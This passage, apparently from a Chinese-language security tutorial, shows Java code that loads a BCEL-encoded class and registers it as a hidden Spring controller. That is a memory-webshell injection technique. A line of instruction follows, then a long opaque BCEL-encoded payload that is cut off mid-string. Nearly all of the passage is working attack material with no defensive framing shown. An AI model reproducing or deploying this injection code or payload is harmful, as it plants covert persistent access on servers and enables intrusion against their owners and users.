            Class ob1 = (Class) loadClassmethod.invoke(bcelclassLoader, "$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$8dW$eb$7f$iU$Z$7e$cefwgvv$b6$97$ed$r$jl$L$r$b4$e4$d2fK$9b$AYB$da$q$q$q4iC6$s$96$a08$d9$3d$9bl$b3$d9$d9$ce$ce6$897$U$_$a0$a8$uZ$V$adE$U$u$V$c4$d6$cb$a6P$a9$a8$V$uj$bcU$fb$c9O$fc$B$7e$c3$P$f8$D$df33$bb$c9f$b7$d8$fc6g$cey$df$f7$3c$e7$bd$9f$997$df$7d$f9$C$80$W$fcS$c1$3e$cc$89a$5e$M$lS$f0q$7cB$M$9f$94$f1$vAyP$c6$a7$r$7cFA$A$PI$f8$ac$82$cf$e1$f3$K$82$f8$82$8c$87e$3c$o$p$n$e1$8b2$be$a4$60$z$k$95$f1e$J_Q$b0$B_$95$f1$98$8c$af$c9$f8$ba$8c$c7e$7cC$c67e$i$97$f1$z$Z$df$96$f1$j$ZO$c8$f8$ae$8c$ef$v8$81$efK8$a9$60$3b$9e$94$f0$D$F7$8b$e7S$C$ee$87$K$g$f0$p$n$f1$b4$84g$U$ec$S$9cg$VD0$t$p$Z$c4$v$3c$tC$97$R$97pZA$ab0$a3$V$3f$W$f2$cf$x$e8$c0$LB$e7$9f$I$5d$l$95$f0$a2$82v$b1$fd$a7$S$ce0$f8$dbS$99$94$d5$c1PS$df0$ca$e0$ed6$S$9ca$f5$40$w$c3$P$e6g$s$b89$a2O$a4$89$S$k0$e2zzT7Sb$ed$S$bd$d6T$w$c7$b0s$mn$ccD$f8$9c$3e$93M$f3H$$k$a62$93$P$q$f8$8c$R$e9$cf$i$e1qk$c4$e862$96i$a4$d3$dc$bc$83$e1$ba$fa$81$p$fa1$3d$92$d63$93$91$ee$b4$9e$cb$N$Yz$82XB$B$Wg$a8$bd$K$9fa$cd$m$b7$a6$8c$c4$90n$ea3$dc$e2$s$j$ce$s$Z6$d4$8fw5$ac$dcD$e2l$82$c13$de$r$U$e59$8ba$93$p$932$o$5d$f9d$92$9b$3c1$cc$5dd$v$ab$cf$a7$e9$Ya$e9$SP$cc$S$b6$Q$db$3fk$a6$e8$bcr$ee$a1$Ja$9d8$87$7c$e1$g$95$e3$f1$3c$89$ceG$O$g$b1$7c$7c$aa3$3di$d0rj$a6g$$$ce$b3V$ca$c8$90$f8v$5bt$$$S7$e7$b3$96$e1J$O$e9$89$E$9d$b5$5c$aen$Fd$7f$e6$98$9eN$r$O$f0$f9$e5R$c1$ac$3e$c9$85$83$f9$9c$r$og$ef$c9$5b$a9tdP$cf$S$7f$c32$8d$97$efS$9d$409$bee$d8J$87$98$3cc$N$f3$a3yrV$a7E$a6O$e4$c9o$8e$cb$vl$cbpL$9eL$93$e9$R$87$t$dcg$f2$a3$bdz$9c$fc$b0f$92$X1$8a$3b$F3o$H$60$ad$cd$cce$8dL$8e$X$b9$b2$e9$S$Y$C$c4$$$92$d94m$cc$f1$5c$8e$b4$z$gQrYw$w$3be$87mcyZ$ceg$8b$a9$d9Z$ee$87$f6$ca$a0V$G$b2$83$AC1K$8fO$d3$O$h$c7$a9$S$Jg$a9$de$a9$b8$r$fc$8c$K$94j$93$8a$90$K$89A$v9$942Q$89$Zy3$ce$7bS$e2$fc$da$ca$d4o$W$H$aa$d8$8fN1$dc$ad$e2$e7$f8$85$84_$aa$u$60A$c59$bc$c4$d0n$98$93$cdN$5c$92$o$c5g$Ns$bay$96O4$c7$9d$f86$bb$9elv$3d$ec$86$bd$cfHS$MU$bc$8c$f3$94$e4W$L$q$r$c7$8a$SQ$91$c0$af$ud$x$3dA$G$abx$F$XT$fc$g$af$92aK$n$a5t$5b$W$c2$b2$ad$8e$5b$a9$d6$86$O$c5FT$fc$G$bfu$C$ea$94$Y$85$aaz$ed$a9$f8$j$$$3a$92$7d$ae$q$cb2$c0$n$8d$b9e$t$J$9fXi$ca$E$8fA$89$e1K$a6$f3$b9$vz$c6$d3$86$ad$Goi$e5$7b$f7$b4$r$f9Dk$a2mO$eb$84$a3t$ac$98$3er6o$8d$ea$e9$3c$89$b2$3c$f5$ba$ce$9e$Y$c5R$c5$ef$f1$g$c3$8ek$x$5c$V$af$a3$93$8a$f2$gj$97$e1$fa2$a9$5c$96$c7$p1$k7$b9E$c5$h$a3$95$8a7pI$a4$c1$9b$w$fe$80$3f2l$fb$bf$a5N$d5$b3$94$d2$7dzn$8a$92T$c2$9fT$y$e2$cf$e4$dd$5c$3e$T$99I$e5$e2$91$ae$ceX$cf$ad$zw$f1$b8a$7b$f7$_$f8$ab$8a$bf$e1$ef$w$O$60$40$c5e$fc$83a$5d$95$8e$c0$d0x$ed$5d$9c$K$b2j$8b$a6$ec$bbZ$93pO$5dQ$c2$94O$J$9e$a4$cb$c6$G$a1$b2$a1N$de$df_$ad$97$_$cb$b4$91$v$93$8bN$jr3$bd$b8$5e_$bf$7c$a3C$V$N$902$c1$z$942U$b5$fa$8asJ$XM$40$dc$F$aeN$db$eb$x$9bG5$N$f7W$91$h$af$90kx$bf6$eaOe$8e$Z$d3$94$a5m$f5$95$edi$bc$92$d4P$ed6$92$85$bd$8e$ea$eb$wM$U$a7P$z$eb$e9$9c$b87$ab$40$deg$b7d$3d$n$5e$BV$fa$b4t$l$8a$$$d0$9f$c9YzF$f4$fc$86$abz$a8$b2c$af$b6$x$d9$ee$b2$p$a6$7dc$I$7d$bb$e6$ed$G$e5$ado$Q$d7$b5$c8$82$w$88$e2$fdD$bc$ad$I$81$fe$Vw$pU$8a$z$Q$wk$fbT$eaT$f9$M$b7W1$f4$g$bd$a9$s$ecJr$9a$W$d5Y5S$85$ceR$c2$e8Me$f44$b9W$bc$8d$IR0$c3g$97$9cT$eeI$X$l$db$e8$f5l$l$c4$9f$97Z$k$dd$N4v$d1j$_$3d$a9$L$c2$d7$b8$Av$96$s$kt$d3$a8$d0$TXE$c2kp$X$cdTG$I$3d$e8$b5A$e8$5e$n$J$B$d0AO$n$ebolZ$80g$r$c2$3a$da$b3$deF$d8$e8H$95$Q$fc$e8C$3f$a1$de$pp$Z$zD$x$a6$d6$e1$c2$deIG$8b$N$81$c6$a6$9a$a6$L$L$a89SB$f6$db$ba$d4$$C$N$94P$D$Y$c4$c1$r$d4A$h$f5$QYk$a3z9m$5eE87$9d$83$b7$A$df$40S$d8_$80$U$96k$5eA$a0$Aep$a7C$a0e$b0$A$f5$e0$ae$CB$e1U$$3$ea$d5$bc$bb$5cN$d4g$b3V$XY$7e$cd_bI$9aO$f0$d6$b8$3c$cd$e72$5e$c5$da$a8$ac$c9$e1p$B$eb$9e$40$83$p$b5$beRjCT$d1$94$C6F$D$a7$f0$b4$pU$eb$r$a9$c35$e1$b51$5b$94VAZm$8a$b9$a8$B$z$f0$gBZ$m$ac$d9$d0$86$s$89M$d7$V$a1$8b$e68$b8$a1$f0$H$ca$d0$U$Xm$b3$40$hs$q$b6$U$b7$w$eeV$97$be$b5$82$7e6$7c$3d$c1$daJ$de$b0$d2$94hP$L$K$c66_$f1$bc$c3$dep$d0$3e4$e8s$O$bd$91H$9ab$9f$cc$a2j$b8$ee$in$8a$aa$a7$b0$3e$g$d2B$F$ec8E$ae$b5g$f5$9a$ea$3b$8f$86$c3B$8d$c6p$dd$C$9a$K$d8Y$e26$9fG$e4$f0$Cv$8bU$f8$W$z$f8$S$f6$d4$60$8c$e6$7b5_i$de$a2I$ce$bcQS$cf$a3$95$e4o$d5H$dd$db$K$b8$bd$80$b6$C$a2$C$e9$8e$b1$S$e8$9dg$e1e$c7$d9$J$f6$q$b6$db$cf$d3$b8$99$9da$X$d9$eb$d8$c5$W$3d$9ag3$7d$dex$ed$84$7c$RM4n$86$84$z$94$96$5b$b1$D7$d0g$d16$ca$ba$h1$84$3a$dcO_Zs$f4a$f5$Q$gq$92d$9f$c1N$3cG$dfV$8bh$c6$bf$e8$db$eam$ecf$9bp$L$db$8d$3d$ac$P$7bY$3fnc$83hcID$d9$e3hg$c7$d1$c1N$a0$9b4$d9$c7$9e$c2$7e$f6$y$cdO$d3$3b$c2$f3$e8bg$d0$c3$$$a2$8f$b4$eae$97p7$5b$c4$3d$ec$K$O$b0$b70$c0$fe$8dA$f6$O$Oy4$M$93$b6C$9e$ad$b8$d7S$87$98$5d8$97$e9$8b$f1$qi$3cH$g$w$a4Q$N$ee$c50$95$cf$db$c4$8fa$E$K$9d$e4$c3$H1$8a$Q$9d$pfc4$bbd$cf$3eD$b3$xTO$87q$lB$84$wh$e3$I$89$bar$LQ$f2l$n$abEy$d7zB$f80$3eB$f5$b7$83$bd$8b$H$I$b9$G$ad$a4$d9G$89$e6$r$h$de$82N4$l$86$d8eL$Q$cd$8f$fb$d9$h$88$TM$c2$i$7b$81$5e$i$87$nc$91$8d$3a$fa$91_$ae$80$d3L$n$ef$5c$40$92$e4$82$e4$9f$c7$a8$7fLR$93$9arZ$95$ab$5d$8at$3aB$U$D$ca$7b$e4$f0$80$84i$Ji$J3$S2$e5$a3$B$fc$X$z$f4$7c$H$d3$ef$915$a1$f7$R$z$feh$9e$F$93p$b4_$82$e9$l$95$90$f3$ff$H$83$S$y$3f$f2n$9bm$a7$ffcv$df$9a$fd$l$a1$ef$f7$b6$ff$P$A$A");
            Method method2 = ob1.getMethod("test");
            Object injectToController = ob1.newInstance();

            Method registerMethod = retrievalMutex.get("requestMappingHandlerMapping").getClass().getSuperclass().getSuperclass().getDeclaredMethod("registerMapping", Object.class, Object.class, Method.class);
            registerMethod.invoke(retrievalMutex.get("requestMappingHandlerMapping"), info, injectToController, method2);
        } catch (NoSuchFieldException e) {
            e.printStackTrace();
        } catch (IllegalAccessException e) {
            e.printStackTrace();
        } catch (ClassNotFoundException e) {
            e.printStackTrace();
        } catch (InvocationTargetException e) {
            e.printStackTrace();
        } catch (NoSuchMethodException e) {
            e.printStackTrace();
        } catch (InstantiationException e) {
            e.printStackTrace();
        }
    }
}
```

再将该文件转换为bcel code

```
$$BCEL$$$l$8b$I$A$A$A$A$A$A$A$a5YWt$h$d9y$fe$H$w$80$b8T$83$a4$95$b0$eb$f5$ca$f6$dd$b5V$bbK$a1c$c0$z6$J6$b0$8b$60$Ri$c7$cc$94$3b$mH$Q$mQ$d8$d2$ec4$c7$e9$89$T$a7$97M$e2$u$3d$eb$U$d9qb$7b$93x$9dr$f2$e2$97$9c$e4$3dO$7e$c8K$krNNNN$be$ef$C$w$5cQ$5b$S$89$98$b9s$cb$7f$ff$f2$fd$e5$ce$fc$e3$ff$7c$f9$ab$o$92$96$7f$e8$91$c7$a5$d5$pm$d9$e1e$97$8f$7b$3drA$f6$pr$c0$fbw$f4$c8w$caw$f1$f2$dd$R$Z$8d$c8$f7$84$e5$93$R$f9T$8f$f4$b2c$$$o$f3$R$f9$de$k$f9$3e$f9$fe$b0$fc$40X$7e$90k$3e$j$96$l$K$cbg$o$f2$c3$3d$f2$p$f2$a3$R$f9$b1$88$fcx$8f$fc$84$fcdD$7e$8a$T$7e$3a$o$9f$e5$fdg$o$f2$b3$3d$f2$82$7c$$$o$3f$X$91$9f$8f$c8$_D$e4$X$p$f2K$R$f9$e5$88$fcJD$7e5$o$bf$W$96_$e7$d4$d7$c2$f2$h$3d$d2$t$bf$Z$96$df$ea$918$ef$9f$ef$91$q$ef$bf$dd$DAp$bf$dd$pY$de$7f$a7Gl$de$7f$d7$92$93$_Wj$95$d6$ab$96$i$bb$f6$dc$a2$r$c7$Lu_$5brv$b2R$d3$d3$edMW7$e6$j$b7$8a$9e$e8d$dds$aa$8bN$a3$c2$e7n$e7$f1$d6Z$a5iI$7c$d2$abo$de$d0$7b$ce$e6VU$dfhn5$w$b5$f2$aa$af7$eb7$s$eb$8e_$ac$adk$af5_$_$d4k$adF$bdZ$d5$8d$97$y$89$bc$ecU$bb$h$9f$ed$y$uT$9df$b3$8a$f9$96$5c$9e$5cwv$9c$hU$a7V$bea$baI$c6$y$3b$d3$d0$cdz$bb$e1$e9$e6HEW15$f6$c0$d4$86$O$aa$d8$e9$86$Z$c2$e4$b0$87$j$f5$5e$8b$cc$df$9f5$e3$92$j$M$f7v$87$bb$94$o$dd$c7$a4$r$a7$ef6$df2$94$C$b3N$ab$d5$a8$b8$ed$d6$3d$ON$df$ef$99r$b6$y$b9$d6$d9$ab$dd$aaTo$60$9d$d7n4t$adu$a3p$af9$e64$d70$T$i$f4t$q$9f$ab$d7$c1$e3Ugk$abZ$f1$9cV$a5$5e$h$de$c1$bc$a9v$b5$85$e7fK7$ba$5b$3d$f96S$y$b9$d0$d0$60D$ef8$d5$v0$b3$d7$5ds$e6p$af$rW$b6$c0$b0n$d4$9asz$bb$ad$9b$z0$e6WH$d1$92$a7$8fP$s$86$9b$adF$dbk$d5$a9$ffc$edF$V$oo6$l$e8$b6$q$b4$J$Q$9cu$3d$5d$f5$ee$5b$L$3d$b4$a6$b1$df$a6n$ad$d5$c1$cc$TGl0e$c6H$bb$ee$s$y9$ffV$db$d3$90$9d$f5$b0L$b4$f2$Q$98$yy$aa$d1$91$EJ$dd$82$3a$8b$b5$a0$7e$88$bd$e3$V$f4$YM$94$xT$d5T$97$h$L$I$be$fa$c0v$d3$f5R$db$5b3z$h$de$f3$f4$W$95$82$dd$3f$f8$c0$94$ov$y$3b$d5$B$P$Il$3ej$92a$7b$ba$de$g$a9$b7k$87$u$bdx$84$f8$c5$daN$bdc$d1y$a7Q$d6$ad$H$e7$7f$e0$n$e6$3a$ac$3f$92$3b$I$ed$d4Z$95$O$40$k$98t$ba$d4r$bc$N$e8$c7$f8$z$e2$EB$E$a2$D$C$Db$C$c2$B$a0X2n5R$a1$5b$3fy$b4$db$f6q$a7$5eyI$5e$O$cb$ef$f5$ca$ef$cb$l$f4$ca$l$ca$l$f5$ca$l$cb$eb$bd$f2$Fy$dd$92S$f7$fc$b3W$feD$fe4$y$7f$d6$x$7f$$wz$e5$8b$f2$rlr$dfU$yy$f6$dd$b9$89$r$fd$f5F$b9$af$e3$vA$c3$d9$d4$bb$f5$c6F$df$aev$fb$ba$5e$d9$b7$a4$dd$81$fb$8eQ$e8$f6$ce$cd$cc$cc$5b2$f2$a8$c5M$dd$d8$a9$eaV$df$e6$8eGB$j$X$e8$9b$7d$84o$84$e5$_z$e5$b3$f2e$80$fa$zv$86$df$7d$ec$B$T$94Z$dc$ea$a5$5e$f9K$f9$xK$ce$bd5$ec$i$ea$ea$cc$85$d2nT$eb$e5z$9f$d7l$86$e5$x$bd$f2U$f9$9a$r$93$ef$8d$ef$$$bf$jx$i$e1$d9$99G$91s$x5$bf$cf$a9$d5$ea$z$e7aBay$83$ec$fc$b5$r$J$E$f8$bef$bb$d6G$3a$ce$96$e3$ad$e9$3e$fa$7b_$a5F$7d9$d5$3e$g$b2$ef$81$60$cd$85$7f$D$d9$ee$c5$80$5e$f9$5b$f9$bau$a1O$a9$c1$c2$f0$a4R$aa$aalW$V$d5$c0$a1$ff$b6$bf$a4$CW$e5$CUYP$8b$w$I$94$af$95$e7$x$8d$abV$da$c3_$V$x$7dwT$a5$i$e5$dbji$7cM$f9y$b5$bd$a9$dc$ec$98$g$d2EU$z$aa$bc$a3$f2$b6r2EUV$ae$9bH$a8a$e5e$94$97$t$81mL$P$94$9bTnJ$e5$7d$fcm$aa$d2$aaj$ab$94V$e9$f8$cd$9b$caM$ab$dd$V$95qo$w$t$3e$afn$a2$85$fd$f2$ee$m$c8$v$t$b9$88$5e$e5$d8$wH$y$u$ed$cf$a8$A$7c$a51$c1$8b$d7U$60$ab$n$95CG$bcY$Or$e4$K$db$za$ad$f2r$dc$w$87F$90W$Y2$z$ca$J$99$5c$cf$Q$d1$d4$c6$z5$c85$k$98$L$c0$u$9b$v$b5$P$f2$3aK$eaA$7c$5b$8d$xp$ef$c5UK$91T$5c$ed$a89$f6$60B$3e$ad$c6$b0$bf7$82$e1$b2j$u$3b$cdq$b0k$c7$b1$5b$91$ER$9er$b5$daT5e$7bjU$d9$ce$de$Y$d9$c7$su$e5$tU$81$a3$d86$a9$3cW$95$W$95N$81$f8$dc$w$$A$7c$B$3bk$X$8d$M$k$ed$AkI$d0u$94m$d7$f1$db$9b$E$a1$dc0$b6$9f$40c$hs$fc$A$b2$H$J$b5$dei$_$b2$ed$da$98$aa4V$e7$cdjM$s$e7$d9$b4$Td3$9fR$r$d8$91$i$40$gtT$c7$b9$s$9fQ$a9$c0H$Z$df2$ad$a4$f2$e3$a4Tm$92RK$8dP$b2$86$a3$c6$94$ce$b1y$40$J$f52v$d6$40I$kj$ccB$c4y$aa$K$M$c7$b1$cb$8ar$f3jE9$3e7$87Na$93$60$91$8a$cfh$S$f0rmZeG$f99$VP$e2A$a8pb$8d$g$f1$N$3a$9b$e0E$edCaql$G$b6$BQ$80$Rv$5dQ$daq$B$e3$82$9a$C$85$e9$U$b6$c0$cf3$b6$f4$7d$S$a3$b5$93$wH$D$a255$ad$i$M$8e$Cl$b0$b9$af$9c$y$ff$ca$F$f4Rj$9d$d8$a0$ae5T$95S$ad$d4$be$b2$a1$h$9f$T$f3N$k$9a$f5se$e5cZ$9e2$3a$J$e2$yH$e5$d5$k9$C$e0$a0$3ah$cb$BL$81$c1$m$81$dd$b3$d4$9a$a3$89M$9bC$c0e$5e$b9$Z$c8$e0$a7$e2$z$Y$b8$c6$z$d6$5cl1$aa$fc$b4$87$z$bcYz$K$8c$94$98$$$YO$q$7c$a72S$c0$r$I$N$60$a1Z$86$cc$ca$B$y$T$e5$5b$e4$Hd$a1$a5$7c$w8$80K$91$bc$9f$ae$u$I$efg$b1$911$c8T$9c$3a$b1$a9$a8$9d4b$81$l$M$c1$e8U$c2$d2K$60$b5$83$h$m$DZA$wK$7c$8e$$$a9$s$cd$a8R$ae$9a$a0$Z$f0$H$f09f$b3Y$os$83$3e$9d$8f$97$c8$e0$Uw$81$m$f0$5dL$w$SLt$f8$3c$b6$H$dcg$e0m$b7$60$a8$94a$g$60$ca$b9k$dc9c$i$V$8eY$5b$dd$hQ$3a$d3$s$3c$m$80$93l$S$bc9$9dZ$m$ee$9a$U$ce$f6$89$gh9$cb$xt$90$f1M$40$81pp$e9$UA$9a$e5$5e$b0$h$b7a$b4$d9$a6$f60$B$be$F$f5$c3$cc$ad$bc$J$sY$yoA7sd$d0$cej$I$d1$JU$J$ca$ef$c1$5eiJ$e84$t$u$ae$97$cc$b7$H$v$e3$M$96$947$d5F$be$3cCe$n$80$y$93$cb$94$ce$8c$aa$c0kO$a4$Je$d7$99$d9AP$d2$d0$p8$cb$3a$v$b5$ee$C$$$cb$8c$3d$80$$$82$V$c2$jD$f4$f4$3aY$c5$b6$c0$a5$9b$40$q$40t$f1$fc6$Y$calBR$5bso$40q$cd$HT$80$e6$cc6$e2$d82$a9$fa$89$da$822n$J$8bB$3c$3f$3e$BN0$9b$c1$d5$5b$deR$c6I$7c$AZg$9b$A$mU$9e$p4$a1$UM$d7Z$k$a4$a2$94$ca$t$a8$97$85M$e5y$s$d2$e4$e1$88$V$Y$rifz$b4$a0$a7$tk$MT$e34$B$f6$f6$i$f2O$ff$G$dc2s$b4$A$d1$96T$b3$9b$d0$dd$A$ed7$a3$b4$d1D$81$Wv$d2$d5$F$fa$C$I$aec$ER$c1$e6$N$8cy$g$81$df$_m$abI$c4$83$3c$90$d7$a6$ee$9bh$d4$f0$x$c1Y$e6wT$5bsa$3e$9d$c4$ac$3c$ju$b7l$a2r$9e$5eM$d8$e7$Z$e8$e0$db$b3$Gp$J$c6mD$7d$cf$c47$c4$xo$95A$D$c2$X$a8$f8$86$825l$7b$9f$R$pG$cb$V$K$60$ad2E$89$5c$7b$bb$d3$bd$D$7bz$x$ru$90$82$b8$b7$e80$I$f4$f0$C$da$8a$be$e1$9b$ae$9c$83$60$O$N$a5$Y$40$G$S$dc$j$f4$ea$8a$8c$qW$Z$O$e2$ec$ab$40M$e3C$p$cc$89$Ba$97g$ecB6$g$c6$5e$fbt$a8$86$cax$dd$c5k$c8K$93t$a1$D$5e$d0$e7$t7$8b$f0$a4$3d$86g$d7$a9$c1$c0$xj$cd$e6H$b9$bb$E$aa$M$3c$e2p$9a$J2$e3$baj$81a$M$be$M$9b$b4H$3f0v$d7$e9q$E$a2$3d$3a$de$3e$jn$A$wI$93$fd$bc$c1$Mr$5b$O$d6$5d$p$d5qfe$93$U$b6$e25$90$L$92$7c$CD$fd4$7c$dcO$VM$dc$cb$d2$e2$c0$a6$e3n$9a$b8$99F$YFh$ca$c6$n$bf$93$lAn$f1o1$c1$A$9c$90$_$e7$$1y$d9I$d8$Y$3c$cd$ee$B$e2$8e$c1Sf$c1$E$ro$J$98$9e$86A$f7$d4$3a$ea$Gw$L$7d$99yr$e2$e46$u$u$Ys$90$5c$5cg$ea$$$98$c09$d0$e5$e7$b6$YN$Z$84$836t$8a4$B$60$pm$zSi$d0$N$d0Qf$bcr$93$cb$G$e4$Z$b5$c1$ccV$q$eew$88$N$P$C$$1k$dfjl0$3b$c2B$b6$3f$D$94$rWX$t$A00$b1$8f$c0$84$3d$m$e1$Qx$I$Q_j$w$f0a$Z$q$96$a6$J$8d$81A$5c$8e$3c$d9$vf$8f$3c$dcu$E$5c$f9$b7J$q$b2$YO3$5e$e5L$J$e2d$c7$v6X$80$y$3bD$y$f3C$G$O$e2z$r$a2$Vm$a5$gs$x$803xg$90$cc$o$j$3a$89$Df$i$947z$S$91h$j$e1$7bb$ae$baES$f8$c9$7d$T$da$f5$k$e8e$f4$K$5d$k$f1$f2$80$v$40$dbs$fb$E$b6$93$9a$a4$9c$bbp$c9$c1$F$d5XlO$d3$8f$A5$60$p1A$Q$f8$a9$ca$G$Zs$9d$N$9a$dbOn$91$e1i$GI$3f$81$85$b8$83$R$40$K$b9$87$rQb$92$e9$zo$e7$87$97$P$96$3a$LY$e2$f8$8b$84Ly$D$C$X$e0$Sp$i$3f$b7$A$84M$R$95$yC$3c$e0j$d7$ed$86$da$m$F$dfF$U$Ze$d4p$fdi$b5$ba$c8$e0$8eIZ$af$b2$I$e5Cr$98S$Rr$Y$e5$f3$s$f5$bb$eb$88$I9S$d1e7$O$88$7f$d7$B$9a$82$W$o$95$5d1$K$60$aeh$$$40$I$9f9$8c$f5$9aq$W$ecc$b3$u$60$W$CB$cb$Djz$I$96$E$a1$e4j$89$ee$92$8e7L$be$c8$8c$99$8a$m$a9$8aC$90$k$c1$PP$60a$84$7d$AM$a4HpW6I$8f$40$cd$R$5dn$baT$acQd$40$94Y$I$88$da$85$f8$cbc45$8c$B$e6$j$a4x$a0$y$c7x$bb$B$ffn$B$ebT$A$83$abg$a0$9d$c2$gl$85$gC$t$3cj$c7$t$u$A$93$nV$e7A$a2D$e9$9c$d4$E$3d$M$G$99Y$B$e5$e9$99u$g$ab$98$a6rlS$8b0$d8$e5$Z$90$7c$ba$7fZ$N$_r_$D$81$K$d3$60$deT$cb$T$c4$d4$qy$9b$B3$c0h$h$f5$u$b2$db$mm$eb$hn$a0$f7Q$f2$Po$G$8e$b4$89$3b$I$e4$c81$90$9d$f9$c5k$a3jG$a9$e1$bas$a6$be$dc$3c$e0N$db$EQ$O$faTde$84N$c2$E$9b$a6bP$f0$a1xK$f9$ad4$5d$f4$e6$fa$3a$5c$80$feg3$aa$AFn$ca$d8$89$c9$gr$c2$d7JX8$abV2$q$8f1$88$b3J$5d$F$d9$3cM$P$cf$f3$ec$V$U$a3$cc$J$B$n$Dk$_bn$T$cc$ef$h$df$e4$c1$tHgG$a1$9caU$bc$c9d$a1u$a7fGl$a2b$i$Th$5d5$bcB$b9$b0$80$9d$ee$$$c0$3aGE$c2G$a1$bb$3ckW$Es$a0$C$8c$eb$c468$h$e4$fe$c06$d3e$g$K$dd$85$9c$c9$89Y$q$j$A$8ey$c3a$8c$d8$e1$3c$9a$P$t$9a$d6$d00B$F$e2$a4$7b$L$O$60$DEP$bcc$eaB$lI$VX$y1X$d7$n$83$cb$C$D$i$b0$bc$f2$B$W3$f1$c0$c40$3c$fb$e9$e1$r$c6$88$caM0$9d$a9$90$40$8d8$84M$bbI$q$8e0$85$K$b4$cd$$h$K$7c$a3$f8$801$n$b4$X$87k$fa$b3$M$cc$ca$a0$BjK$8e$98$dc$cf$d0n$s$a6$cc$J$s$cd$bd$w$9b$b4$Z$i$c0$b7$e7$99cv$f7$J$E$A5$60$a1$d1$f1$Q$84$I$da$d0G$86$83$Q$ed$7d$98$a2QR$r$H$8a$G$b8y$c8$83V$i$e6$d1$R$T$9eq$40$897$91$d4$Q$897$90qQ$90$y$a0$q$ca$93$9b$G$A$b0$G$_$dbg$f5$93g$a19$e3mB$rNr$88$cc$fb$f6N7$bd$d0s$3d$pP$c5$iw$e2t$8a9$d8k$E$de$9cvP$a6z$fepU$ad6$b9$bb$c2Y$y$a5M$f2$ca$9bJ$B$gFd26$c5J$k$os$e6$u$abM$ca$df$a3$8f1Rxt$c1$3a$e9$p$605$87$cdA$w$beH$be$dc$a0$a0jm$aal$l$60$99$db$FE$88$a1$e3c$bb$f4$bd$dc$Ai$e6MZ$40$cc$5c$_$c3$84$d0$e2N$b5$8d0$5e$de$c2$G$IM$k$f9r$TK46$e6$j$Q$b0$u$7c$83$R$aa$94$b8Kp$d6x$a7$40$83$d4$V$aa$a4$I$3c$c1$8emu$A$e6$d6jw$cd$96$e0$e9$u$ddF$df$AC$b7q$u$A$c8M$E$M$u$60$5e$3b$D$80$e9$96a$5d$9b$KR$P$e2$b0$81$o$gka$cdI$f2$H$f7$ce$Z$3f$f2L6$ca$b8k$O$ea$83$9be$f2$B$sY$S$m2$c6$B$b1$ec$Qd$a0$J$Ys$aa4$B$8bmo$8c$e1A$a7$d6$3c$d6$n6u$N$T$_0Z$b8$3cI$bb$a6$wKA$f3A$w$c5$Ny$5e$d7$ac$b0rz$87$v$cegl$82$fd$9c$o$91$88z$9a$tt$f3$fa$a1$80$acf$_$98$97$K$ac$99$8c$f3$pB$day$93y$B$R$c4$G$uj$B$e5$K$i$98e$80OA$3d$9fu$d0$G$f3$dc$98$vzx$3a$Z$a4M$A$9cV$91$e0$87$9a$fc$e4$y$ac$M$fcj$k$b3Y4$C$K$9e$89$7b$H$3c$Vh$7b$X$a1$aeD$C$L$qe$e7$e2$8c$mEC1U$c6$_M$F$f0$e8$89$e2P$9b$cc$e6$b8$f33$u$d7$c1$e9$z57$d8$c9$S7$87$f6$e0$c9$fb$M$fd8$f6$d2U$cd$d1$D$V$87k$A$8d$945G$d0$N$b3$E0G$J$dfT$B$7c5$93$a0D$d84$e3$8d$9a$a0$db$91$3d$c0$C$cf$c7$d9$D$E$mVf$N$d7$v$eay$P$c5$d0$d6$K$b8f$z$98$e0$f1$gQun$8a$dc$ef3$L$c1$d4$3eO2$b3$FF$af$82Zk$d0$b6$5bt$88$M$eb$b0i$93F$5c$afi$ce$f6$d0$fb$z$d4$3c$c8C$v$P$80$E$O$R$3dx$GIS$3d$60$d21$c1$5d$ps$f0$99$af3$98$d2l$da$c27$f16$c7$bf$e1I5$k$e7u$S$81$7b$91$3c$80f$dc$94$d4$c4q$e74k$l$Q$q$y$Q$b9$3f$96$ad$R$c2$3c$9dgAmp$940$y$98$93$7e$dc$d4mqS$f9$c7Y$q$Ar$f3$yG$c7n$b2$c3w$aa$80$K$b4Vm$gUfi$j$880$A$b8B$eb$8c$Y$e6$c80$cb$Xb$bd$f2$a6$7c$83$lZt$b3e$c9$x$ef$e6$ad$60$e7e$f9$bd7y$f7_$8a$5b2$f4$5e$df$86b$d2$Ro$T$87$df$h$991$cd$X$82G$d0y$8f$_g$f9R$bf$bd$a9$ff$ff$84f$hu$bf$ed$jE$e8$d5$ff$d3k$d7$H$I$bc$ef$f0$b7$881$a7$e6Wu$a3$fbd$c9$d9$7b$df$m$ee$f6$5cy$d4$X$91$5e$f9$3b$f9$ba$r$ef$7f$fb$ef$T$bd$f2$f7$f2$b2$rW$df$e9$T$c5$a1$vG$7f$a0$b0$e4$f9$f7$f0y$c2$92$a7$df$e1$e3$c4a$ae$8e$fc4aI$df$7b$fbrx$e8$fd$f9$fcZC$f3s$e1$e9$ee$X$83$bb$cf$X$af$3d7$f9$d6Y$_Yr$J$ecw$3f$O$U$k$fcL$V$3b4$fd$f0$f7$c6$I$d7t_$f3$3f$3c$8d_V0$a1$d4$de$d2$N$af3$eb$i$9e$874$k$g$da$ef$7e$81$7b$f1$da$c3$df$H$9e$7b$9b$cf$96$97$l1$84$cd$9a$ba$d5$b1k$a5$f3$f9$f5$da$K$bf$d9$k$c3$9e$96$3c$7b$ed$e1$8f$9c$cf$j$f5$dd$f3$d2$91$c2Z$f2$cc$3b$f0yW$e43$j$3d$de$ff$be$96$ba$f6$b1$87$a6$j$r$e0$e1O$89O$bd$ed$EK$k$ab$e9$dd$Oj$3c$88$fa$e1C$7b$bc$9dxG$a8o$a0$d1p$f6$df$a2$a1$O$9b$c5$pI$i$G$d0$bd$eeS$Q$fc$ee$b7$c3$8f$k$a1$acw$a7$85$7b$df$3bOV$e0$5b$h$90$z$7f$84$e5$de$ad$b4$e7$l$c0$db$5d$de$ce$d2$8dZ$e6$93$df$7c$c3$f1$b4$7c$40$fa$e5q$e1$bf$90X$fc$7e$87$eb$xx$ba$81$bb$85$fb$89$eb_$U$eb$Lf$f8U$5cO$9a$ce$93$f2$R$5c$7b$3b$T$e4$a32$80$7bD$G$ef$$$3e$fe_xz$CKv$bf$q$a1$3brl$c2$9a$ec4$ee$c8$f1$3br$C$7f$d1$93w$q$3c$f9$3c$9e$o$cf$df$j$3a5$f5$C$c6$a3$3d$Y$99$7e$91$p$_$e2$f9T$ff$f1$d8$f1$ce23$d2$7f$ov$82c$b1$T$ec$3e$d5$7f2v$92$8b$k$e3P8$W6Ca$f6$9dzCz$fb$p$b1H$f4$f4$j9$d